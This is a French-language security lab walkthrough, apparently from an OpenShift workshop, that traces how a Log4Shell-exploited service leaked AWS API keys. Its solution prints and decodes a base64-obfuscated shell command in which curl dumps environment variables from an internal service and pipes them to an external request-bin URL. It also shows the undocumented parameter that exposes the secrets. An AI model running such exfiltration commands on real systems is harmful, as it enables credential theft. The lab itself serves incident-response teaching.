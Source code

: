 ```yaml
---
title: "Analyse d'un flux d'attaque"
draft: false
weight: 3
---
```


## Contexte

Nous sommes le 19 décembre 2021 (oui, vous avez bien lu, deux ans plus tôt, jour pour jour).

L'équipe cloud AWS vous averti qu'une clé d'API AWS a été compromise et a servi à déployer des logiciels de crypto mining.
Fort heureusement, votre société interdit la réutilisation des clés d'API pour plusieurs usages : vous êtes donc certain de l'origine de cette fuite de donnée : c'est l'application **visa-processor** qui exploite cette clé d'API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | sort | grep ^A  
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note** : les clés d'API AWS ont été caviardées dans le lab pour éviter une crise cardiaque inutile aux équipes sécurité **Red Hat**. Elles ont été remplacées par deux messages humoristiques. :)

Dans le même temps, l'équipe réseau vous averti de la présence d'un flux sortant inhabituel à destination de serveurs eux aussi hébergés sur AWS.

```
$ dig +short public.requestbin.com   
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName 
OrgTechName:   Amazon EC2 Network Operations
```

## Objectif de l'exercice

Votre mission, si vous l'acceptez, est d'investiguer l'environnement du Lab à la recherche du chemin parcouru par l'attaquant pour perpétrer cette exfiltration de données.
L'objectif est atteint quand vous trouvez l'URL du **Request Bin** utilisé par l'attaquant pour exfiltrer la clé d'API.

![Request Bin montrant la clé d'API AWS exfiltrée](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

## A vous de jouer !

Indices :

- Commencez par la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`
- Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**. Cliquez sur les déploiements **information-service** et **back-office** et comparez leur flux. Lequel vous semble le plus suspicieux ?
- Retournez dans la section **Violations** et filtrez la vue avec le nom du déploiement qui vous semble le plus suspicieux.

## Solution

{{%expand "Solution" %}}

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

On note bien la présence de CVE mais rien de très suspicieux.

Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**.

Cliquez sur le déploiement **back-office**.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

Les flux observés semblent légitimes.

Cliquez sur le déploiement **information-service**.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observez le flux entrant depuis le router OpenShift et le flux sortant vers AWS.
Notez également que le déploiement **information-service** communique avec le déploiement **visa-processor**.

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Notez la présence de la vulnérabilité **Log4Shell** ainsi que d'un comportement suspect au runtime: **Shell Spawned by Java Application**.

Cliquez sur la violation **Shell spawned by Java Application**.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observez la commande exécutée :

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Décodez le contenu encodé en base64 (utilisez la commande "base64 -d") :

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

La première commande **curl** exploite un bug de l'application pour récupérer la clé d'API AWS.

En temps normal, le composant **visa-processor** retourne la valeur de sa variable d'environnement **APP_ID** :

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

Mais en passant un argument supplémentaire non documenté, on peux récupérer les variables d'environnement qui suivent (par ordre alphabétique) :

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

La seconde commande **curl** exfiltre les données via le service **Request Bin**.
Connectez vous à [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) et confirmez que les données exfiltrées sont bien présentes.

{{% /expand%}}
